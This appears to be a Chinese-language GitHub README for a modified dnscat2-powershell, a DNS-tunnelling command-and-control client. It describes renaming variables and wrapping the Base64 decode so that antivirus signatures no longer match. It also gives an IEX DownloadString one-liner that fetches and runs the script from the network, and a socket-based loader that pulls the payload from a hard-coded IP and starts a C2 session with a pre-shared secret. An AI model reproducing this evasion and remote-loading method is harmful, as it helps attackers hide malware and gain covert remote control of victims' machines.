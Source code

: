 # dnscat2-powershell
dnscat2-powershell去文件特征，新下载方式

## 源码

[d1.ps1](https://github.com/Mob2003/dnscat2-powershell/blob/main/d1.ps1)，修改了两处特征：
 1. 源码第三行 $EncodedCompressedFile,改个变量名

 2. 源码第六行，连续调用IO.Compression.DeflateStream 与[IO.MemoryStream][Convert]::FromBase64String 那么只需要对$EncodedCompressedFile 改个名字，另外再把Frombase64String提取出来做个函数，如下图
 
## 使用方法
 ```shell
 IEX (New-Object System.Net.Webclient).DownloadString('https://github.com/Mob2003/dnscat2-powershell/blob/main/d1.ps')
 ```
 具体请查看原始项目 [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)
 
## 新式加载方法（仅限http）
 1. 将d1.ps或者把你自己修改好的powershell脚本，上传到nginx根目录，亦或者其他web服务器根目录
 2. 下载[远程加载.ps1](https://github.com/Mob2003/dnscat2-powershell/blob/main/%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BD.ps1)，修改以下为你的**http服务器ip**，与**文件路径**
    - 12行 socket.Connect(" $\color{red}{14.119.104.189}$ ", $\color{red}{80}$)
    - 13行 GET $\color{red}{/d1.ps1}$ HTTP/1.1\r\nHost: $\color{red}{14.119.104.189}$\r\n\r\n
 3. 修改启动参数
    - 50行 start-Dnscat2 -PreSharedSecret $\color{red}{12345678}$ -DNSServer $\color{red}{14.119.104.189}$  -Domain  $\color{red}{you domain}$
 4. 执行修改好的**远程加载.ps1**，或者将里面的内容复制粘贴到powershell里面执行
